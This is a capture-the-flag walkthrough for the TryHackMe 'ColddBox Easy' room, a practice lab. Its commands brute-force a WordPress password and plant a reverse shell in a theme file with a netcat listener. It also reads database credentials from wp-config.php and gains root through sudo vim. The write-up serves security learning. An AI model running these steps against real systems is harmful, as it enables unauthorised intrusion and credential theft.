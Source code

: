 # ColddBox Easy Walkthrough

- **Room Link**: [TryHackMe ColddBox](https://tryhackme.com/r/room/colddboxeasy)
## 1. Connect to the VPN
To begin, connect to the TryHackMe VPN:
```
sudo openvpn vpnfile.ovpn
```

## 2. Nmap Scan
Run an initial Nmap scan to discover open ports and services:
```
nmap -sC -sV <TARGET_IP>
```
The site appears to be running WordPress based on the scan results.

## 3. Username Enumeration with WPScan
Enumerate WordPress usernames using WPScan:
```
wpscan --url <TARGET_IP> --enumerate u
```
From this, we discover some usernames, including the key one: `c0ldd`.

## 4. Password Brute Force with WPScan
Next, brute force the password for the `c0ldd` user using a common wordlist (`rockyou.txt`):
```
wpscan --url <TARGET_IP> --usernames c0ldd --passwords /usr/share/dirb/wordlists/rockyou.txt
```
This reveals the login credentials:
- **Username**: `c0ldd`
- **Password**: `*********`
## 5. Logging into WordPress Admin
Using the discovered credentials, log in to the WordPress admin panel at:
```
http://<TARGET_IP>/wp-admin
```

## 6. Inserting a Reverse Shell via WordPress
Navigate to `Appearance > Editor > header.php` and add a reverse shell payload. I used the [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell). Customize it with your IP and port.

Run a listener using Netcat:
```
nc -nlvp 1337
```
Afterward, visit the site to trigger the reverse shell.

## 7. Spawn a Stable Shell
Once you have a reverse shell, stabilize it using Python:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then, press `Ctrl-Z` to background the shell and run the following to set the terminal properly:
```
stty raw -echo
fg
```

## 8. Retrieve Credentials from wp-config.php
While exploring the file system, check the `wp-config.php` file. It contains the database credentials:
```
define('DB_USER', 'c0ldd'); 
define('DB_PASSWORD', 'cybersecurity');
```

## 9. Gain User Access
Using the credentials found, switch to the `c0ldd` user:
```
su c0ldd
```
Now, you can retrieve the first flag:
```
cat /home/c0ldd/user.txt
```

## 10. Privilege Escalation to Root
To find ways to escalate privileges, check the `sudo` permissions:
```
sudo -l
```
You will see the following commands can be run as root:
- `/usr/bin/vim`
- `/bin/chmod`
- `/usr/bin/ftp`
Based on the [GTFOBins](https://gtfobins.github.io/) exploit suggestions, use `vim` to escalate:
```
sudo vim -c ':!/bin/sh'
```

## 11. Capture the Root Flag

Finally, with root access, retrieve the root flag:
```
cat /root/root.txt
```

